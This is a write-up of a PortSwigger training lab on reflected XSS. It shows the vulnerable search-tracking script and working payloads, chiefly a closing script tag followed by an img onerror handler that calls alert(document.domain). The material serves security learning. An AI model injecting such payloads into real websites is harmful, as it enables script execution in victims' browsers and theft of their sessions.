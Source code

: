 # Reflected XSS into a JavaScript string with single quote and backslash escaped

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped), you'll learn: Reflected XSS into a JavaScript string with single quote and backslash escaped! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-21/images/Pasted%20image%2020230101033828.png)

In here, we can see there is a search box.

Let's try to search something:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-21/images/Pasted%20image%2020230101034058.png)

As you can see, our input is reflected to the web page.

**View source page:**
```html
<section class=search>
    <form action=/ method=GET>
        <input type=text placeholder='Search the blog...' name=search>
        <button type=submit class=button>Search</button>
    </form>
</section>
<script>
    var searchTerms = 'test';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

In here, **the `searchTerms` is inside the `document.write` JavaScript function's string.**

**Let's try to escape it:**
```html
>'+'<script>alert(document.domain)</script>'
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-21/images/Pasted%20image%2020230101034812.png)

However, **it escaped `"`.**

**How about `\`?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-21/images/Pasted%20image%2020230101035043.png)

Same.

**Which means we need to use event handlers:**
```html
</script><img src=errorpls onerror=alert(document.domain)>
```

**Hence the application's JavaScript will be:**
```html
<script>
    var searchTerms = 'test';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='</script><img src=errorpls onerror=alert(document.domain)>
```

Let's try it:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-21/images/Pasted%20image%2020230101035458.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-21/images/Pasted%20image%2020230101035506.png)

Nice!

# What we've learned:

1. Reflected XSS into a JavaScript string with single quote and backslash escaped